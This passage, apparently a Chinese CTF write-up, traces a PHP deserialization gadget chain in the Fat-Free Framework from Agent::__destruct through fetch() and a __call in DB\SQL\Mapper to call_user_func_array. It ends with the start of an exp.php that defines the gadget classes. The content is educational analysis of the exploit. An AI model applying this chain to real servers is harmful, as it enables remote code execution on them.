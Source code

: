 需要反序列化首先就是全局搜索 __destruct(), 唯一可用的在 ws.php 里面的对象 Agent

```php
    function __destruct() {
        if (isset($this->server->events['disconnect']) &&
            is_callable($func=$this->server->events['disconnect']))
            $func($this);  # class Agent
    }
```

然后发现最终需要访问 Agent 类内的一个函数, 可以利用触发 __call 的只有函数 fetch

```php
    function fetch() {
        // Unmask payload
        $server=$this->server;
        if (is_bool($buf=$server->read($this->socket)))
            return FALSE;
```

`$this->server` 可控, 访问不存在的函数 read 触发 `__call`, 测试了一下, 对象 Base 是 final 类无法触发然后另外几个发现触发 `__call` 之后直接访问 `call_user_func_array`, 然后需要的是访问类和函数, `$func` 这个我们无法改动指定是 `read` 所以执行就会报错, 只有 DB/sql/mapper.php 里面不是直接传入 `$func` 并且 `$this->props[]` 可控

```php
	function __call($func,$args) {
		return call_user_func_array(
			(array_key_exists($func,$this->props)?
				$this->props[$func]:
				$this->$func),$args
		);
	}
```

然后测试发现直接使用 `CLI\Agent` 不行, 在 autoload 时会有文件包含错误, 导致反序列化时找不到类的定义, 先从 `CLI\WS` 入手, 让其包含正确的 `CLI\Agent` 定义文件(也就是需要在对象 Agent 上套一层 `CLI\WS` 的壳)

建立 exp.php 如下

```php
<?php
namespace DB\SQL {
    class Mapper {
        protected $props=[];
        function __construct($prop) {
            $this->props=$prop;
        }
    }
}

namespace CLI {
    class Agent
    {
        protected $server;
        protected $socket;

        public function __construct($server, $socket) {
            $this->server = $server;
            $this->socket = $socket;
        }
    }
    class WS {
        protected $events=[];
        public function __construct($events) {
            $this->events = $events;
        }
    }
}

```